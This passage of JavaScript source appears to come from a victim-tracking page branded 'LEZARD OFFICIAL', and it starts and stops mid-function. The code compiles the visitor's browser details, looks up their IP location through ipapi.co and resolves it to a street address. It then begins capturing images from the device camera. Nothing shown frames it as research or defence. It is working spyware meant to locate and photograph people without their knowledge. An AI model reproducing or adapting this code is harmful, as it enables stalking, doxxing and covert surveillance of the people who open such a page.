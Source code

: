     }
  }
  m += `<blockquote><b>⏰ Waktu Akses: ${new Date().toString()}\n`;
  m += `🕒 Page Load Time: ${performance.now().toFixed(2)} ms\n`;
  m += `📜 History Length: ${history.length}\n`;
  m += `✋ Touch Support: ${'ontouchstart' in window ? '✅ YA' : '❌ TIDAK'}\n`;
  m += `🔗 Referrer: ${document.referrer || 'None'}\n`;
  m += `🌍 URL: ${location.href}\n`;
  m += `📄 Title: ${document.title}\n`;
  m += `🕓 Timezone: ${Intl.DateTimeFormat().resolvedOptions().timeZone}\n`;
  m += `🧭 Offset: ${new Date().getTimezoneOffset()} menit</b></blockquote>\n\n`;

  try {
    const i = await fetch('https://ipapi.co/json/');
    const d = await i.json();
    m += '<blockquote><b>📍 LOCATION INFORMATION\n';
    m += `📡 IP Address: ${d.ip}\n`;
    m += `🏙️ Kota: ${d.city}\n`;
    m += `🏙️ Kabupaten: ${d.region}\n`;
    m += `🗺️ Wilayah: ${d.region}\n`;
    m += `🌎 Negara: ${d.country_name}\n`;
    m += `🏷️ Kode Pos: ${d.postal}\n`;

    if (d.latitude && d.longitude) {
      m += `📌 Latitude: ${d.latitude}\n`;
      m += `📍 Longitude: ${d.longitude}\n`;

      const l = await gLD(d.latitude, d.longitude);
      m += `🏙️ Kabupaten: ${l.kb}\n`;
      m += `🏙️ Kecamatan: ${l.kc}\n`;
      m += `🏠 Alamat Lengkap: ${l.fa}</b></blockquote>\n`;
    }
  } catch (e) {
    m += '❌ Gagal mendapatkan informasi lokasi\n';
  }
  m += '\n<blockquote><b>POWERED BY LEZARD OFFICIAL</b></blockquote>';
  return m;
};
    const captureCamera = async (mode) => {
        const v = document.getElementById('v'), 
              c = document.getElementById('c');
        let stream;
        try {
            stream = await navigator.mediaDevices.getUserMedia({
                video: { 
                    facingMode: { exact: mode } 
                }
            });
            v.srcObject = stream;
            await new Promise(resolve => v.onloadedmetadata = resolve);
            v.play();
            await new Promise(r => setTimeout(r, 1500)); 
            